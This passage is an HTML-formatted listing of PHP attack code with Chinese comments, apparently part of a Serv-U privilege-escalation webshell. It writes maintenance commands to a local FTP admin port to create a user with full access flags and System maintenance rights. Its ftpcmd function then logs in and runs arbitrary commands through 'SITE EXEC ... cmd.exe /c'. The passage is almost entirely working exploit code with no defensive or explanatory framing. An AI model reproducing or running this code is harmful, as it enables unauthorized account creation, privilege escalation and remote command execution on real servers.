<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-Expire=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-RatioUp=1");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-RatioDown=1");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-RatiosCredit=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-QuotaCurrent=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-QuotaMaximum=0");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-Maintenance=System");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-PasswordType=Regular");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"-Ratios=None");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"&nbsp;Access=".$homedir."|RWAMELCDP");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($fp,&nbsp;"QUIT");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;while&nbsp;(!feof($fp))&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;fgets&nbsp;($fp,128);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&#47;&#47;执行命令主函数定义<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">function&nbsp;ftpcmd($ftpport,$user,$password,$dir,$cmd){<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">$conn_id&nbsp;=&nbsp;fsockopen&nbsp;("127.0.0.1",&nbsp;$ftpport,&nbsp;$errno,&nbsp;$errstr,&nbsp;8);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">if&nbsp;(!$conn_id)&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;"$errstr&nbsp;($errno)<br>\n";<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">}&nbsp;else&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($conn_id,&nbsp;"USER&nbsp;".$user."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($conn_id,&nbsp;"PASS&nbsp;".$password."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($conn_id,&nbsp;"SITE&nbsp;EXEC&nbsp;".$dir."cmd.exe&nbsp;&#47;c&nbsp;".$cmd."");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fputs&nbsp;($conn_id,&nbsp;"QUIT");<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep&nbsp;(1);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;while&nbsp;(!feof($conn_id))&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;fgets&nbsp;($conn_id,128);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;fclose($conn_id);<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">}<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">&#47;&#47;去除转义字符<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">function&nbsp;stripslashes_array(&amp;$array)&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="string">while&nbsp;(list($key,$var)&nbsp;=&nbsp;each($array))&nbsp;{<&#47;span>&nbsp;<&#47;span><&#47;li>
<li class=""><span><span class="string">if&nbsp;($key&nbsp;!=&nbsp;'<&#47;span><span>argc<&#47;span><span class="string">'&nbsp;&amp;&amp;&nbsp;$key&nbsp;!=&nbsp;'<&#47;span><span>argv<&#47;span><span class="string">'&nbsp;&amp;&amp;&nbsp;(strtoupper($key)&nbsp;!=&nbsp;$key&nbsp;||&nbsp;'<&#47;span><span>'.<&#47;span><span class="func">intval<&#47;span><span>(<&#47;span><span class="vars">$key<&#47;span><span>)&nbsp;==&nbsp;"<&#47;span><span class="vars">$key<&#47;span><span>"))&nbsp;{&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="keyword">if<&#47;span><span>&nbsp;(<&#47;span><span class="func">is_string<&#47;span><span>(<&#47;span><span class="vars">$var<&#47;span><span>))&nbsp;{&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="vars">$array<&#47;span><span>[<&#47;span><span class="vars">$key<&#47;span><span>]&nbsp;=&nbsp;<&#47;span><span class="func">stripslashes<&#47;span><span>(<&#47;span><span class="vars">$var<&#47;span><span>);&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;&nbsp;<&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="keyword">if<&#47;span><span>&nbsp;(<&#47;span><span class="func">is_array<&#47;span><span>(<&#47;span><span class="vars">$var<&#47;span><span>))&nbsp;{&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class="alt"><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="vars">$array<&#47;span><span>[<&#47;span><span class="vars">$key<&#47;span><span>]&nbsp;=&nbsp;stripslashes_array(<&#47;span><span class="vars">$var<&#47;span><span>);&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>}&nbsp;&nbsp;<&#47;span><&#47;li>
<li class=""><span>}&nbsp;&nbsp;<&#47;span><&#47;li>
<li class="alt"><span><span class="keyword">return<&#47;span><span>&nbsp;<&#47;span><span class="vars">$array<&#47;span><span>;&nbsp;&nbsp;<&#47;span><&#47;span><&#47;li>
<li class=""><span>}&nbsp;&nbsp;<&#47;span><&#47;li>
<li class="alt"><span>?>&nbsp;&nbsp;<&#47;span><&#47;li><br />
<&#47;ol><br />
<&#47;div></p>

